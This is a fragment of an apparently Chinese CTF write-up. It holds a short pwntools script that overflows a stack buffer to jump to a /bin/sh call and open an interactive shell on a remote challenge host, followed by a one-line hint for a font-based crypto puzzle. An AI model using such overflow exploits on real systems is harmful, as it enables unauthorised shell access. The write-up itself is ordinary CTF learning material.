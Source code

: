 ![图片](img/c17f7c8ccabe0e1b93c166330a858f0f.png)

一个大大的/bin/sh

那么就控制程序到这里去吧

from pwn import *

url = remote(“ip”,port);

system_adress = 0x 00000000004006CD

payload = ‘a’*(0x30+8)+p64(system_adress)

url.sendline(payload)

url.interactive()

crypto方向

**Wing**

Word里找字体照着打

![图片](img/59ad824d2e9b5bbad30dd8d5b2f7917d.png)
